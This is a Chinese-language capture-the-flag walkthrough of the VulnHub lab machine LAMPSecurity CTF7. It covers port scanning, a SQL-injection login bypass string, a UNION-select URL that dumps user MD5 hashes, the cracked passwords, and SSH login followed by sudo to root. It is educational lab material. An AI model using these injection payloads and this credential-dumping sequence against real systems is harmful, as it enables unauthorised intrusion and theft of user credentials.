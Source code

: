 # LAMPSecurity：CTF7

2024-6-4 https://www.vulnhub.com/entry/lampsecurity-ctf7,86/

difficulty: easy

## IP

101.1.0.167

## Scan

Open Port -> 22,80,137,138,139,901,5900,8080,10000

```
PORT      STATE  SERVICE     VERSION
22/tcp    open   ssh         OpenSSH 5.3 (protocol 2.0)
| ssh-hostkey:
|   1024 418a0d5d596045c4c415f38a8dc09919 (DSA)
|_  2048 66fba3b4747266f492738fbf61ec8b35 (RSA)
80/tcp    open   http        Apache httpd 2.2.15 ((CentOS))
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-server-header: Apache/2.2.15 (CentOS)
|_http-title: Mad Irish Hacking Academy
137/tcp   closed netbios-ns
138/tcp   closed netbios-dgm
139/tcp   open   netbios-ssn Samba smbd 3.5.10-125.el6 (workgroup: MYGROUP)
901/tcp   open   http        Samba SWAT administration server
| http-auth:
| HTTP/1.0 401 Authorization Required\x0D
|_  Basic realm=SWAT
|_http-title: 401 Authorization Required
5900/tcp  closed vnc
8080/tcp  open   http        Apache httpd 2.2.15 ((CentOS))
|_http-server-header: Apache/2.2.15 (CentOS)
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
| http-title: Admin :: Mad Irish Hacking Academy
|_Requested resource was /login.php
|_http-open-proxy: Proxy might be redirecting requests
10000/tcp open   http        MiniServ 1.610 (Webmin httpd)
| http-robots.txt: 1 disallowed entry
|_/
|_http-title: Login to Webmin
```

先看端口：80、8080、10000，3 个端口都有登陆入口：

http://101.1.0.167/signup

http://101.1.0.167:8080/login.php

http://101.1.0.167:10000/

经过简单测试，发现 http://101.1.0.167:8080/login.php 这个入口存在 sql 注入，用户名输入 `admin' or 1=1 -- -` 就能登陆进去。

http://101.1.0.167:8080/readings.php 可以编辑信息，看看能不能植入 php web shell，经过尝试，发现不能植入 php web shell，特殊字符被转义了。

找到数据库中的 users 表数据，看看能不能爆出的用户能不能 ssh 登陆：

```
http://101.1.0.167/newsletter&id=-1%20union%20select%201,group_concat(username,0x2d,password),3,4,5%20from%20users

brian@localhost.localdomain-e22f07b17f98e0d9d364584ced0e3c18,
john@localhost.localdomain-0d9ff2a4396d6939f80ffe09b1280ee1,
alice@localhost.localdomain-2146bf95e8929874fc63d54f50f1d2e3,
ruby@localhost.localdomain-9f80ec37f8313728ef3e2f218c79aa23,
leon@localhost.localdomain-5d93ceb70e2bf5daa84ec3d0cd2c731a,
julia@localhost.localdomain-ed2539fe892d2c52c42a440354e8e3d5,
michael@localhost.localdomain-9c42a1346e333a770904b2a2b37fa7d3,
bruce@localhost.localdomain-3a24d81c2b9d0d9aaf2f10c6c9757d4e,
neil@localhost.localdomain-4773408d5358875b3764db552a29ca61,
charles@localhost.localdomain-b2a97bcecbd9336b98d59d9324dae5cf,
foo@bar.com-4cb9c8a8048fd02294477fcb1a41191a,
-d41d8cd98f00b204e9800998ecf8427e,
test@nowhere.com-098f6bcd4621d373cade4e832627b4f6
```

经过 hashcat 破解，得到一部分明文密码：

```
ed2539fe892d2c52c42a440354e8e3d5:madrid
4cb9c8a8048fd02294477fcb1a41191a:changeme
5d93ceb70e2bf5daa84ec3d0cd2c731a:qwer1234
098f6bcd4621d373cade4e832627b4f6:test
b2a97bcecbd9336b98d59d9324dae5cf:chuck33
2146bf95e8929874fc63d54f50f1d2e3:turtles77
9c42a1346e333a770904b2a2b37fa7d3:somepassword
e22f07b17f98e0d9d364584ced0e3c18:my2cents
```

```
julia:madrid
foo:changeme
leon:qwer1234
test:test
charles:chuck33
alice:turtles77
michael:somepassword
brian:my2cents
```

发现 julia:madrid ssh 可以登陆，并且 sudo 具有完整的权限，可以直接提权：

```
[julia@localhost ~]$ sudo -l
[sudo] password for julia:
Matching Defaults entries for julia on this host:
    requiretty, !visiblepw, always_set_home, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR
    LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User julia may run the following commands on this host:
    (ALL) ALL
[julia@localhost ~]$ sudo su
[root@localhost julia]# id
uid=0(root) gid=0(root) 组=0(root) 环境=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
[root@localhost julia]# cd /root
[root@localhost ~]# ls
anaconda-ks.cfg  install.log  install.log.syslog  lampsec_ctf7.pdf  webmin-1.610-1.noarch.rpm
```
